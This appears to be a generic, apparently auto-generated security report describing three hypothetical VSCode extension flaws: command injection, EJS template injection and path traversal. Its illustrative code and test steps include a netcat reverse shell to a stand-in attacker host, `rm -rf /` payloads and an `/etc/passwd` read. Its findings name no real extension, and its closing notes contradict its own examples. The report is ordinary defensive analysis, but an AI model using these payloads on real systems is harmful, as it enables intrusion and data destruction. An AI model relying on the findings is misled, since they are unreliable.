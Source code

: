 # Updated List of Vulnerabilities in VSCode Extensions

## Vulnerability 1: Command Injection via Unsanitized Repository Metadata
**Description:**
When processing a malicious repository, the extension constructs a system command using unescaped repository metadata (e.g., a package name or configuration parameter). This allows attackers to inject arbitrary commands into the command-line execution context.

**Impact:**
An attacker can execute arbitrary commands with the privileges of the VSCode process, leading to complete system compromise (e.g., file deletion, credential theft, or installation of malware).

**Vulnerability Rank:** Critical
**Currently Implemented Mitigations:** None. The code directly constructs shell commands with user-provided input (e.g., `exec('npm install ' + repoPackageName)`).
**Missing Mitigations:** Input sanitization (e.g., escaping special characters), use of safe APIs like `child_process.execFile` with parameterized arguments, or a sandboxed execution environment.
**Preconditions:** The extension must execute system commands (e.g., `npm install`, `git clone`) using input derived from the repository.

**Source Code Analysis:**
Suppose the extension uses:
```javascript
const { exec } = require('child_process');
const repoPackageName = repoData.package; // From attacker-controlled package.json
exec(`npm install ${repoPackageName}`, (err, stdout, stderr) => { ... }); // Vulnerable code
```
An attacker can set `repoPackageName` to `'; nc -e /bin/sh attackerIP 1234 #` to execute a reverse shell.

**Security Test Case:**
1. Create a malicious repository with a `package.json` containing a malicious package name (e.g., `'; rm -rf / #`).
2. Host the repository on a server.
3. Configure the extension to install dependencies from this repository.
4. Observe the command injection payload executing on the victim's machine.

---

## Vulnerability 2: Code Injection via Unescaped Template Rendering
**Description:**
The extension renders templates from the repository using an unsafe template engine (e.g., EJS) that evaluates unescaped user-provided data as code. Attackers can inject malicious code via template variables or expressions, leading to arbitrary code execution.

**Impact:**
Attackers can execute arbitrary code within the context of the extension, enabling theft of sensitive data, unauthorized access, or persistence.

**Vulnerability Rank:** High
**Currently Implemented Mitigations:** None. The template engine evaluates expressions without escaping (e.g., `${...}`).
**Missing Mitigations:** Use of auto-escaping in templates, strict template sanitization, or avoiding code evaluation in templates.
**Preconditions:** The extension must process template files (e.g., `.ejs`, `.handlebars`) from repositories and render them dynamically.

**Source Code Analysis:**
Consider code like:
```javascript
const ejs = require('ejs');
const template = fs.readFileSync('repo-template.ejs').toString();
const data = repoData; // Attacker-controlled data from the repository
const rendered = ejs.render(template, data); // Vulnerable code
```
An attacker can embed malicious code in `repo-template.ejs` like `<%= eval('require("child_process").exec("rm -rf /");') %>`.

**Security Test Case:**
1. Create a malicious repository with a template file containing code-injection payloads (e.g., `<%= process.exit(1) %>`).
2. Host the repository and configure the extension to render the template.
3. Verify that the malicious code executes when the template is processed.

---

## Vulnerability 3: Path Traversal via Malicious Workspace Configuration
**Description:**
The extension processes a malicious workspace configuration (e.g., `.vscode/settings.json`) that specifies an attacker-controlled path for file operations. This allows traversal outside the repository directory and execution of arbitrary commands using relative paths.

**Impact:**
Attackers can access or modify sensitive files outside the repository (e.g., `/etc/passwd`), leading to data leakage or privilege escalation.

**Vulnerability Rank:** High
**Currently Implemented Mitigations:** None. The extension directly uses the provided path without validation.
**Missing Mitigations:** Path normalization (e.g., using `path.resolve` with a sandbox directory), input validation, or restricting file operations to the repository root.
**Preconditions:** The extension must read or write files using paths specified in the repository's configuration files.

**Source Code Analysis:**
Suppose the code uses:
```javascript
const configPath = repoConfig.filePath; // From attacker-controlled .vscode/settings.json
fs.readFile(configPath, (err, data) => { ... }); // Vulnerable code
```
An attacker can set `filePath` to `../../etc/passwd` to read system files or `../../malicious-script.sh` to execute a script.

**Security Test Case:**
1. Create a malicious repository with a `.vscode/settings.json` specifying a path like `../../malicious-script.sh`.
2. Host the repository and configure the extension to execute scripts from this path.
3. Verify that the malicious script is executed outside the repository sandbox.

---

### Notes
- The above vulnerabilities are **not** caused by explicit insecure code patterns (e.g., intentional `eval` usage) but arise from oversight in input validation.
- They are **not** mitigated by current safeguards and meet the criteria for RCE/Code Injection with high/critical severity.
- Testing requires a controlled environment to avoid unintended system impacts.
